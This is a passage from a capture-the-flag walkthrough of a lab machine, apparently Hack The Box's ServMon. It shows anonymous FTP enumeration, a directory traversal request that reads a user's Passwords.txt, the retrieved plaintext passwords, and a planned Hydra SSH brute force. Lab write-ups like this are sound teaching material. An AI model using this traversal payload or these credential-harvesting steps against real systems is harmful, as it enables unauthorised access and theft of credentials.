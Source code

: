 ```
ftp> cd /Users/Nadine
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:08PM                  174 Confidential.txt
226 Transfer complete.
ftp> get Confidential.txt ./Confidential.txt
local: ./Confidential.txt remote: Confidential.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
174 bytes received in 0.01 secs (14.6953 kB/s)
```

The contents of the file are:

> Nathan,
>
> I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
>
> Regards
>
> Nadine

I can't access anything further with FTP, but now I have a good idea what to use that directory traversal attack on.

```
GET ../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt 
```

With this attack, I get back the `Passwords.txt` file, which contains a series of passwords.
Presumably, one of these is `Nathan`'s actual password.

```
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

I tried to read `/Users/Nathan/Desktop/user.txt` or `/Users/Nadine/Desktop/user.txt`, but neither was successful through the directory traversal.
Well, with these passwords and the two usernames on the system we have enough information to attempt an SSH brute force with [Hydra][].


[burp]: https://portswigger.net/burp
[exploitdb]: https://www.exploit-db.com/
[hackthebox]: https://www.hackthebox.eu
[hydra]: https://tools.kali.org/password-attacks/hydra
[nsclient++]: https://nsclient.org/
[privesc]: https://www.exploit-db.com/exploits/46802
[rce]: https://www.exploit-db.com/exploits/48360
[root shell]: /assets/img/htb/servmon/root-shell.png